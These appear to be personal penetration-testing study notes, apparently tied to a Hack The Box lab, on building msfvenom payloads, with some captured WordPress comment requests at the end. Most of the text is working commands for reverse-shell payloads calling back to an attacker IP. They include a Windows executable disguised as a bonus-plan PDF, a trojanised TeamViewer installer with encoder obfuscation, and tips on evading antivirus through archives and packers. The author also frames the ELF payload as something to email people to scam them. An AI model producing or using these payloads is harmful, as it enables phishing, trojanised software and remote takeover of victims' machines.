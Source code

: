 Creating payload 
similar to [[metasploit]]


List all available payloads 
```
msfvenom -l payloads
```

Staged VS Stageless 
Staged
Create way for us to send over more components of our attack 
Stageless 
Do not have a stage 


How to identify them? 
by name 
linux/x86/shell/reverse_tcp - stage payload - says /shell/ - a stage to send and then /reverse_tcp another stage 

linx/zarch/meterpreter_reverse_tcp - stageless - all the stages are all compressed into one name 

Creating a stageless payload
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```
this will create an elf file called createbackup.elf that we can use to send ppl in email and scam them 

# Windows payload 
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```


# Changing it to a different format name 
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f war -o shell.war
```

Injecting it into real executable files
```shell-session
msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5
```

To hide information we can archive it twice (encrypt it with a password), it will no longer be flagged out as virus but it will be flagged out as the files is unable to be read

```shell-session
msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -e x86/shikata_ga_nai -a x86 --platform windows -o ~/test.js -i 5
```

We can also use packers like upx 

Request that i sent

```
POST /wp-comments-post.php HTTP/1.1
Host: apocalyst.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 128
Origin: http://apocalyst.htb
Connection: keep-alive
Referer: http://apocalyst.htb/?p=5
Cookie: comment_author_fe82fc3c604d57765e9ee2edc912ea2d=banana; comment_author_email_fe82fc3c604d57765e9ee2edc912ea2d=banan%40banan.com; comment_author_url_fe82fc3c604d57765e9ee2edc912ea2d=http%3A%2F%2Fblah; wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1
Priority: u=0, i

comment=hello&author=banana&email=banan%40banan.com&url=http%3A%2F%2Fblah&submit=Post+Comment&comment_post_ID=5&comment_parent=0
```

What we receive back 
```
GET /?p=5 HTTP/1.1
Host: apocalyst.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://apocalyst.htb/?p=5
Connection: keep-alive
Cookie: comment_author_fe82fc3c604d57765e9ee2edc912ea2d=banana; comment_author_email_fe82fc3c604d57765e9ee2edc912ea2d=banan%40banan.com; comment_author_url_fe82fc3c604d57765e9ee2edc912ea2d=http%3A%2F%2Fblah; wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```